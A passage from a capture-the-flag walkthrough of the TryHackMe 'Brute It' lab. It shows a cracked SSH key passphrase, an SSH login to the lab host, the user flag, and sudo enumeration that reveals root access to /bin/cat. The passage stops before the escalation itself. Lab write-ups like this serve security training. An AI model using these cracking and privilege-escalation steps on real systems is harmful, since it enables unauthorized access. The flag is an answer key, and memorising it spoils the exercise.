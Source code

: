 john --show id_rsa.hash 
id_rsa:rockinroll

1 password hash cracked, 0 left

Change the permissions of the private key with the following command
chmod 600 id_rsa
                                      


SSH

Login to the target machine
```
└─# ssh -i id_rsa john@10.10.58.60
The authenticity of host '10.10.58.60 (10.10.58.60)' can't be established.
ED25519 key fingerprint is SHA256:kuN3XXc+oPQAtiO0Gaw6lCV2oGx+hdAnqsj/7yfrGnM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.58.60' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan 29 00:15:31 UTC 2024

  System load:  0.0                Processes:           105
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 21%                IP address for eth0: 10.10.58.60
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Mon Jan 29 00:14:47 2024 from 10.13.0.39
```
```
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}

```

Privilege Escalation
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat

```
